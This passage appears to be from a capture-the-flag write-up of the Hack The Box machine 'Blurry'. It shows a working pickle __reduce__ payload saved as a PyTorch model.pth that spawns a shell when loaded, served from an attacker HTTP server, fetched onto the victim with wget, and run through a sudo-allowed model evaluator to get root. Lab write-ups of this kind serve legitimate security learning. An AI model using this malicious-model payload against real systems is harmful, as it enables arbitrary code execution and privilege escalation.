 After reading the [documentation on how to create a model](https://pytorch.org/tutorials/beginner/saving_loading_models.html) that torch could interpret, I was able to create this script that creates a model in a file `model.pth` that executes a bash:

```python
import torch
import os

class malicious:
    def __reduce__(self):
        cmd = ('bash')
        return os.system, (cmd,)

model = malicious()

torch.save(model, 'model.pth')
```

Let's execute it to create the model:

```bash
❯ python3 createTorchModel.py
❯ ls model.pth
model.pth
```

If I test to load this model locally in my python interpreter with torch, I can see it successfully works and executes a bash:

```bash
❯ ls
createTorchModel.py  model.pth
❯ python3
Python 3.11.9 (main, Apr 10 2024, 13:16:36) [GCC 13.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import torch
>>> torch.load('model.pth')
<..SNIP..>
gabri@kali:~/Desktop/HTB/machines/Blurry-10.10.11.19/exploits$ 
```

So I will share the model using a http server and download it in the victim machine at the `/models` folder:

```bash
❯ ls; python3 -m http.server 80
createTorchModel.py  model.pth
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```bash
jippity@blurry:~$ cd /models
jippity@blurry:/models$ wget http://10.10.14.30/model.pth
```

Now, because the sudoers privilege, I should be able to execute this as root. Let's try:

```plaintext
jippity@blurry:/models$ sudo /usr/bin/evaluate_model /models/model.pth
[+] Model /models/model.pth is considered safe. Processing...
root@blurry:/models# whoami
root
```

It worked! Now I can see the root flag in root's folder:

```bash
root@blurry:/models# cd /root/
root@blurry:~# ls
datasets  root.txt
root@blurry:~# cat root.txt 
fa****************************3a
```